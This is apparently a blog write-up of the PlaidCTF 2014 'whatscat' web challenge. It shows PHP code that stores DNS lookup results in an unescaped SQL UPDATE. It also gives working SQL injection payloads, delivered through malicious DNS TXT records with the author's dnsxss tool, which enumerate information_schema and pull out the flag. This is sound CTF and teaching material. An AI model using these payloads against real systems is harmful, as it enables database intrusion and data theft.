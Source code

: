```yaml
---
id: 1856
title: 'PlaidCTF writeup for Web-300 &#8211; whatscat (SQL Injection via DNS)'
date: '2014-04-16T12:29:31-05:00'
author: ron
layout: post
guid: 'https://blog.skullsecurity.org/?p=1856'
permalink: /2014/plaidctf-writeup-for-web-300-whatscat-sql-injection-via-dns
categories:
    - DNS
    - Hacking
    - 'PlaidCTF 2014'
    - Tools
---
```


Hey folks,

This is my writeup for Whatscat, just about the easiest 300-point Web level I've ever solved! I wouldn't normally do a writeup about a level like this, but much like <a href='/2014/plaidctf-web-150-mtpox-hash-extension-attack'>the mtpox</a> level I actually wrote the exact tool for exploiting this, and even wrote a <a href='/2010/stuffing-javascript-into-dns-names'>blog post about it</a> almost exactly 4 years ago - April of 2010. Unlike mtpox, this tool isn't the least bit popular, but it sure made my life easy!
<!--more-->
<h2>The set up</h2>

Whatscat is a php application where people can post photos of cats and comment on them (<a href='https://blogdata.skullsecurity.org/whatscat.tar.bz2'>Here's a copy of the source</a>).

The vulnerable code is in the password-reset code, in login.php, which looks like this:

<pre>
  <span class="Statement">elseif</span> <span class="Special">(</span><span class="Statement">isset</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_POST</span><span class="Special">[</span>&quot;<span class="Constant">reset</span>&quot;<span class="Special">]))</span> <span class="Special">{</span>
    <span class="Statement">$</span><span class="Identifier">q</span> <span class="Statement">=</span> <span class="Identifier">mysql_query</span><span class="Special">(</span><span class="Identifier">sprintf</span><span class="Special">(</span>&quot;<span class="Constant">select username,email,id from users where username='%s'</span>&quot;,
      <span class="Identifier">mysql_real_escape_string</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_POST</span><span class="Special">[</span>&quot;<span class="Constant">name</span>&quot;<span class="Special">])))</span>;
    <span class="Statement">$</span><span class="Identifier">res</span> <span class="Statement">=</span> <span class="Identifier">mysql_fetch_object</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">q</span><span class="Special">)</span>;
    <span class="Statement">$</span><span class="Identifier">pwnew</span> <span class="Statement">=</span> &quot;<span class="Constant">cat</span>&quot;<span class="Statement">.</span><span class="Identifier">bin2hex</span><span class="Special">(</span>openssl_random_pseudo_bytes<span class="Special">(</span><span class="Constant">8</span><span class="Special">))</span>;
    <span class="Statement">if</span> <span class="Special">(</span><span class="Statement">$</span><span class="Identifier">res</span><span class="Special">)</span> <span class="Special">{</span>
      <span class="PreProc">echo</span> <span class="Identifier">sprintf</span><span class="Special">(</span>&quot;<span class="Constant">&lt;p&gt;Don't worry %s, we're emailing you a new password at %s&lt;/p&gt;</span>&quot;,
        <span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>username,<span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>email<span class="Special">)</span>;
      <span class="PreProc">echo</span> <span class="Identifier">sprintf</span><span class="Special">(</span>&quot;<span class="Constant">&lt;p&gt;If you are not %s, we'll tell them something fishy is going on!&lt;/p&gt;</span>&quot;,
        <span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>username<span class="Special">)</span>;
<span class="Statement">$</span><span class="Identifier">message</span> <span class="Statement">=</span> <span class="Statement">&lt;&lt;&lt;</span><span class="Special">CAT</span>
Hello. Either you or someone pretending to be you attempted to reset your password.
Anyway, we set your new password to <span class="Statement">$</span><span class="Identifier">pwnew</span>

If it wasn't you who changed your password, we have logged their IP information as follows:
<span class="Special">CAT</span>;
      <span class="Statement">$</span><span class="Identifier">details</span> <span class="Statement">=</span> <span class="Identifier">gethostbyaddr</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_SERVER</span><span class="Special">[</span>'<span class="Constant">REMOTE_ADDR</span>'<span class="Special">])</span><span class="Statement">.</span>
        <span class="Identifier">print_r</span><span class="Special">(</span><span class="Identifier">dns_get_record</span><span class="Special">(</span><span class="Identifier">gethostbyaddr</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_SERVER</span><span class="Special">[</span>'<span class="Constant">REMOTE_ADDR</span>'<span class="Special">]))</span>,<span class="Constant">true</span><span class="Special">)</span>;
      <span class="Identifier">mail</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>email,&quot;<span class="Constant">whatscat password reset</span>&quot;,<span class="Statement">$</span><span class="Identifier">message</span><span class="Statement">.</span><span class="Statement">$</span><span class="Identifier">details</span>,&quot;<span class="Constant">From: whatscat@whatscat.cat</span><span class="Special">\r\n</span>&quot;<span class="Special">)</span>;
      <span class="Identifier">mysql_query</span><span class="Special">(</span><span class="Identifier">sprintf</span><span class="Special">(</span>&quot;<span class="Constant">update users set password='%s', resetinfo='%s' where username='%s'</span>&quot;,
              <span class="Statement">$</span><span class="Identifier">pwnew</span>,<span class="Statement">$</span><span class="Identifier">details</span>,<span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>username<span class="Special">))</span>;
    <span class="Special">}</span>
    <span class="Statement">else</span> <span class="Special">{</span>
      <span class="PreProc">echo</span> &quot;<span class="Constant">Hmm we don't seem to have anyone signed up by that name</span>&quot;;
    <span class="Special">}</span>
</pre>

Specifically, these lines:

<pre>
      <span class="Statement">$</span><span class="Identifier">details</span> <span class="Statement">=</span> <span class="Identifier">gethostbyaddr</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_SERVER</span><span class="Special">[</span>'<span class="Constant">REMOTE_ADDR</span>'<span class="Special">])</span><span class="Statement">.</span>
        <span class="Identifier">print_r</span><span class="Special">(</span><span class="Identifier">dns_get_record</span><span class="Special">(</span><span class="Identifier">gethostbyaddr</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_SERVER</span><span class="Special">[</span>'<span class="Constant">REMOTE_ADDR</span>'<span class="Special">]))</span>,<span class="Constant">true</span><span class="Special">)</span>;
      <span class="Identifier">mail</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>email,&quot;<span class="Constant">whatscat password reset</span>&quot;,<span class="Statement">$</span><span class="Identifier">message</span><span class="Statement">.</span><span class="Statement">$</span><span class="Identifier">details</span>,&quot;<span class="Constant">From: whatscat@whatscat.cat</span><span class="Special">\r\n</span>&quot;<span class="Special">)</span>;
      <span class="Identifier">mysql_query</span><span class="Special">(</span><span class="Identifier">sprintf</span><span class="Special">(</span>&quot;<span class="Constant">update users set password='%s', resetinfo='%s' where username='%s'</span>&quot;,
              <span class="Statement">$</span><span class="Identifier">pwnew</span>,<span class="Statement">$</span><span class="Identifier">details</span>,<span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>username<span class="Special">))</span>;
</pre>

The $details variable is being inserted into the database unescaped. I've noted in the past that people trust DNS results just a bit too much, and this is a great example of that mistake! If we can inject SQL code into a DNS request, we're set!

...this is where I wasted a lot of time, because I didn't notice that the print_r() is actually part of the same statement as the line before it - I thought only the reverse DNS entry was being put into the database. As such, my friend <a href='https://twitter.com/mak_kolybabi'>Mak</a>&mdash;who was working on this level first&mdash;tried to find a way to change the PTR record, and broke all kinds of <a href='http://www.skullspace.ca'>SkullSpace</a> infrastructure as a result.

I ended up trying to log in as 'admin'/'password', and, of course, failed. On a hunch, I hit 'forgot password' for admin. That sent me to a <a href='http://mailinator.com/'>Mailinator</a>-like service. I logged into the mailbox, and noticed somebody trying to sql inject using TXT records. This wasn't an actual admin&mdash;like I thought it was&mdash;it was another player who just gave me a huge hint (hooray for disposable mail services!). Good fortune!

Knowing that a TXT record would work, it actually came in handy that Mak controls the PTR records for all SkullSpace ip addresses. He could do something useful instead of breaking stuff! The server I use for blogs (/me waves) and such is on the SkullSpace network, so I got him to set the PTR record to test.skullseclabs.org. In fact, if you do a reverse lookup for '206.220.196.59' right now, you'll still see that:

<pre>
$ host blog.skullsecurity.org
blog.skullsecurity.org is an alias for skullsecurity.org.
skullsecurity.org has address 206.220.196.59
$ host 206.220.196.59
59.196.220.206.in-addr.arpa domain name pointer test.skullseclabs.org.
</pre>

I control the authoritative server for test.skullseclabs.org&mdash;that's why it exists&mdash;so I can make it say anything I want for any record. It's great fun! Though arguably overkill for this level, at least I didn't have to flip to my registrar's page every time I wanted to change a record; instead, I can do it quickly using a tool I wrote called <a href='https://github.com/iagox86/nbtool'>dnsxss</a>. Here's an example:

<pre>
$ sudo ./dnsxss <span class="Special">--payload=</span><span class="Statement">&quot;</span><span class="Constant">Hello yes this is test</span><span class="Statement">&quot;</span>
Listening <span class="Statement">for </span>requests on 0.0.0.0:<span class="Constant">53</span>
Will response to queries with: Hello/yes/this/is/<span class="Statement">test</span>

$ dig <span class="Statement">-t</span> txt test123.skullseclabs.org
<span class="Statement">[</span>...<span class="Statement">]</span>
<span class="Statement">;;</span> ANSWER SECTION:
test123.skullseclabs.org. <span class="Constant">1</span>     IN      TXT     <span class="Statement">&quot;</span><span class="Constant">Hello yes this is test.test123.skullseclabs.org</span><span class="Statement">&quot;</span>
</pre>

All I had to do was find the right payload!

<h2>The exploit</h2>

I'm not a fan of working blind, so I made my own version of this service locally, and turned on SQL errors. Then I got to work constructing an exploit! It was an UPDATE statement, so I couldn't directly exploit this - I could only read indirectly by altering my email address (as you'll see). I also couldn't figure out how to properly terminate the sql string (neither '#' nor '-- ' nor ';' properly terminated due to brackets). In the end, my payload would:

<ul>
  <li>Tack on an extra clause to the UPDATE that would set the 'email' field to another value</li>
  <li>Read properly right to the end, which means ending the query with "resetinfo='", so the "resetinfo" field gets set to all the remaining crap</li>
</ul>

So, let's give this a shot!

<pre>./dnsxss --payload="test', email='test1234', resetinfo='"</pre>

Then I create an account, reset the password from my ip address, and refresh. The full query&mdash;dumped from my test server&mdash;looks like:

<pre><span class="Statement">update</span> users <span class="Statement">set</span> password=<span class="Constant">'catf7a252e008616c94'</span>, resetinfo=<span class="Constant">'test.skullseclabs.orgArray ( [0] =&gt; Array ( [host] =&gt; test.skullseclabs.org [class] =&gt; IN [ttl] =&gt; 1 [type] =&gt; TXT [txt] =&gt; test'</span>, email=<span class="Constant">'test1234'</span>, resetinfo=<span class="Constant">'.test.skullseclabs.org [entries] =&gt; Array ( [0] =&gt; test'</span>, email=<span class="Constant">'test1234'</span>, resetinfo=<span class="Constant">' ) ) ) '</span> <span class="Special">where</span> username=<span class="Constant">'ron'</span></pre>


As you can see, that's quite a mess (note that the injected stuff appears twice.. super annoying). After that runs, the reset-password page looks like:

<pre>
Don't worry ron, we're emailing you a new password at <strong>test1234</strong>

If you are not ron, we'll tell them something fishy is going on!
</pre>

Sweet! I successfully changed my password!

But... what am I looking for?

MySQL has this super handy database called information_schema, which contains tables called 'SCHEMATA', 'TABLES', and 'COLUMNS', and it's usually available for anybody to inspect. Let's dump SCHEMATA.SCHEMA_NAME from everything:

<pre>./dnsxss --payload="test', email=(select group_concat(SCHEMA_NAME separator ', ') from information_schema.SCHEMATA), resetinfo='"</pre>

Then refresh a couple times to find:

<pre>
Don't worry ron, we're emailing you a new password at <strong>information_schema, mysql, performance_schema, whatscat</strong>

If you are not ron, we'll tell them something fishy is going on!
</pre>

Great! Three of those are built-in databases, but 'whatscat' looks interesting. Now let's get table names from whatscat:

<pre>./dnsxss --payload="test', email=(select group_concat(TABLE_NAME separator ', ') from information_schema.TABLES where TABLE_SCHEMA='whatscat'), resetinfo='"</pre>

Leads to:

<pre>
Don't worry ron, we're emailing you a new password at <strong>comments, flag, pictures, users</strong>

If you are not ron, we'll tell them something fishy is going on!
</pre>

flag! Sweet! That's a pretty awesome looking table! Now we're one simple step away... what columns does 'flag' contain?

<pre>./dnsxss --payload="test', email=(select group_concat(COLUMN_NAME separator ', ') from information_schema.COLUMNS where TABLE_NAME='flag'), resetinfo='"</pre>

Leads to:

<pre>
Don't worry ron, we're emailing you a new password at <strong>flag</strong>

If you are not ron, we'll tell them something fishy is going on!
</pre>

All right, we know the flag is in whatscat.flag.flag, so we write one final query:

<pre>./dnsxss --payload="test', email=(select group_concat(flag separator ', ') from whatscat.flag), resetinfo='"</pre>

Which gives us:

<pre>
Don't worry ron, we're emailing you a new password at <strong>20billion_d0llar_1d3a</strong>

If you are not ron, we'll tell them something fishy is going on!
</pre>

And now we dance.

<h2>Conclusion</h2>

If you're interested in DNS attacks&mdash;this scenario and a whole bunch of others&mdash;come see my talk at <a href='http://www.bsidesquebec.org/'>BSidesQuebec</a> this June!!!